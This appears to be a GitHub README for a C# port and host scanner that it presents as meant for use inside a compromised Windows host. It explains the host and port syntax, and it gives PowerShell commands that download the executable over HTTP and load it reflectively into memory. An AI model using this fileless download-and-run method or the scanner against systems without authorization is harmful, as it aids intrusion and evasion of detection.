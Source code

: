 # Platinum Portscanner
Platinum portscanner is a C# tool for scanning hosts and ports, it has basic port service detection based on the commonly ran service for a port number(always verify) and basic host OS guesses. It was created to mainly be used once insuide a windows host but still wanting a portscanner with easy syntax, speed and output. 
![image](https://user-images.githubusercontent.com/15575425/159026346-0ba8e068-88ad-4d16-906a-e5a6e761adfd.png)


## usage
Program comes with one main command at the moment with two required options. tcpscan /hosts (values) /ports (values) and an optional /nocheck to skip the host detection phase. Users can load it into memory with the below instructions similar to a powershell script and then perform fast, reliable and useful potscanning in memory of a compromised host. 

### the help menu
![image](https://user-images.githubusercontent.com/15575425/159027184-f9e6b874-6be7-47de-a184-57ae644752cc.png)


/hosts can be done in 3 ways 
- list like 127.0.0.1 127.0.0.2 127.0.0.3 etc.
- range like 127.0.0.1-100 or 127.0.0.100-255
- a cidr notation like 127.0.0.1\24 (atm only supports \24-\32 need to work updating for bigger sized cidr ranges)

/ports can be done in 3 ways
- a list like 80 22 53 8080 etc.
- a range like 1-1000
- also a custom top-50 option from the most common ports ive come across during engagements and labs

/nocheck has the option of yes that disables the host up check and just scans the whole of what the user enters like a whole \24 for the selected ports.

### speed and output ?
Platnium port scanner has so far been just as fast if not faster then nmap for host discovery and port scanning, while as not robust if the goal is just to find open ports and running hosts this program has the speed.  
![image](https://user-images.githubusercontent.com/15575425/159028376-6ecfbb7c-642f-4afd-b652-4997853f182e.png)
this is a whole \24 check and 1k port scan. Mine on the left vs a -t5 nmap scan on the right. 

output is also tries to be clean and helpful  
![image](https://user-images.githubusercontent.com/15575425/159028542-b1c54f16-b724-4b1a-b3ce-32dd73157185.png)


### In memory loading ?
1. "$data = (New-Object System.Net.WebClient).DownloadData('http://127.0.0.1:8081/Platinum_Portscanner.exe')"
2. "$assem =[System.Reflection.Assembly]::Load($data)"
3. "[Platinum_Portscanner.Program]::Main()"
** NOTE: the double quotes are just for formatting do not include when running command**

## features
- fast scanning time 
- verbose output
- in memory loading 

## disclaimer
I am not responsible for actions taken by users of Platinum portscanner. Platinum portscanner was released solely for educational and ethical purposes.
